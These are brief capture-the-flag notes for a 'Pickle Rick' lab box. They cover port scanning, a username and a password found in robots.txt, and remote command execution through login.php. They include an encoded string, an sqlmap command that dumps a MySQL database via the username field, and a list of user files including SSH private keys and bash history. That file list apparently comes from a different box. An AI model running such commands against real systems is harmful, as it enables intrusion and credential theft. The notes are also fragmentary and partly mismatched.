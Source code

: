 # Pickle Rick

---

## Reconnaissance

### Nmap Scan

open port are : 80 and 22

### Enumerating the web app

found username : R1ckRul3s
look at /robots.txt and found a passwd
login.php and we got a RCE

encode
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==

```shell
sqlmap -r form.req --dbms=mySQL  -p 'username' -risk=3 --level=3 --dump
```

/home/papa/.bash_history
/home/papa/.bash_logout
/home/papa/.profile
/home/papa/.bashrc
/home/papa/.sudo_as_admin_successful
/home/papa/.pwntools-cache-2.7/update
/home/pingu/.gdbinit
/home/pingu/.cache/motd.legal-displayed
/home/pingu/.ssh/id_rsa
/home/pingu/.ssh/id_rsa.pub
/home/pingu/.gdb_history
/home/pingu/.pwntools-cache-2.7/update
/home/pingu/.pwntools-cache-2.7/update
